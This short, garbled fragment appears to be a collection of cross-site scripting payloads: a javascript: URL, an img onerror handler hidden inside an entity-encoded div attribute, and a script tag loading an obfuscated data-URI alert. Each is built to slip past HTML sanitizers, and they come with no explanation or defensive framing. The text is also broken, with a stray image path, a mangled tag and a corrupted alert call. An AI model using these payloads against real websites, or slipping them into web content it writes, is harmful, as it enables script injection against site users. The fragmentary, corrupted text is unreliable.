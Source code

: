 <&quot;img src="../../../../r89shi/r89shi.github.io/blob/master/140.gif?raw=true">
javascript&colon;alert281%29
<div dir="X&colon;Xj&NewLine;1&NewLine;<img src='' onerror='alert()'>">j&Tab;</div>

<script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script ????????????
